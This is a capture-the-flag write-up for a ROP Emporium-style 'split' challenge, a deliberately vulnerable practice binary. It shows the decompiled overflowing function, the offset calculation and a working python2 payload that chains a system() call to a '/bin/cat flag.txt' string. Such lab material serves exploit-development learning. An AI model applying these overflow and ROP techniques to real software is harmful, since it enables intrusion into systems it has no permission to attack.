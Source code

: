 ## Description:
> The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain.
## Write-up:
Like in challenge 1, the `NX` bit is set, and there some interesting function names:
![[Pasted image 20231215174011.png]]
Namely, `usefulFunction` and `pwnme`.
From Ghidra, `pwnme` looks like:
```c
void pwnme(void)
{
  undefined local_2c [40];
  memset(local_2c,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_2c,0x60);
  puts("Thank you!");
  return;
}
```
It contains a buffer overflow vulnerability.
And `usefulFunction` looks like:
```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```
This *is* useful, as it has a call to `system()`, however it does not execute `/bin/cat flag.txt`, which is the goal. So I will need more in order to use this.
Some further recon in Ghidra reveals the exact string I need exists in the binary:
![[Pasted image 20231215174807.png]]
So if I can pass this the the `system()` call in `usefulFunction` and get it to execute I win.
In the disassembly, I can see that the parameter is pushed onto the stack right before `system` is called:
![[Pasted image 20231215175626.png]]
So I just need the address of the  `/bin/cat flag.txt` string to be on the top of the stack when `system` is called. 
Now to create a payload, I need the offset of the return address from the buffer start.
![[Pasted image 20231215175959.png]]
The offset is the same as in Challenge 1, 44 bytes.
So the payload will be of the form:
```
(44 bytes of junk) + (address of call to system()) + (address of usefulString)
```
```bash
python2 -c 'print "\x00"*44 + "\x1a\x86\x04\x08" + "\x30\xa0\x04\x08"' > payload.txt
```
![[Pasted image 20231215180605.png]]
As shown in the above picture, using this payload, the exploit was successful and the flag was printed.